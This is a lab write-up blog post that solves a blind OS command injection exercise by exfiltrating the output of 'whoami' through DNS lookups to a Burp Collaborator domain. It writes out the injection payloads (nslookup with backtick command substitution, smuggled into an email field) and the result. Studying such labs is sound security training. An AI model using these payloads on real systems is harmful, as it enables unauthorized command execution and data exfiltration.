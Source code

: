```yaml
---
layout: post
title:  "Blind OS command injection with out-of-band data exfiltration"
date:   2024-10-15 11:20:54 +0530
---
```


## Objective 

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

## Solution 

Just like the last lab related OOB interaction, we can use the same following payload `|| nslookup m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` and pass this through the `email` field and let's check whether any interactions 

Awesome, we got the DNS interaction 

![]({{ site.baseurl }}/assets/images/os-13.png)

Now, let's kinda fine tune the payload like **|| nslookup `whoami`.m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||** where the backticks will act as a inline execution of bash commands over there 

Resend the payload through the `email` field and looking into the collaborator found that the `whoami` executed 

![]({{ site.baseurl }}/assets/images/os-14.png)

`whoami` command resulted in `peter-iAmZjL` and submitting as solution.. Solves the lab 

![]({{ site.baseurl }}/assets/images/os-15.png)